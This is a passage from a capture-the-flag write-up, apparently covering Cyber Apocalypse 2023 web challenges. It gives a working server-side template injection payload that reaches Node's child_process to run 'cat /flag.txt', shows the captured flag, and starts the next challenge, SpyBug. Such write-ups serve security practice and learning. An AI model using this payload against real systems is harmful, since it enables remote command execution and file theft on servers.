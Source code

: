 `{{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('cat /flag.txt').toString()")()}}`

<img src="dict2.png" alt="Payload"/>

<img src="dict3.png" alt="Admin panel demo"/>

Flag: `HTB{Pr3_C0MP111N6_W17H0U7_P4DD13804rD1N6_5K1115}`

## SpyBug (medium)
### Challenge
**Given file:**: [Get it here](https://github.com/HoangREALER/cyberApocalypse2023/blob/main/web_spybug.zip)
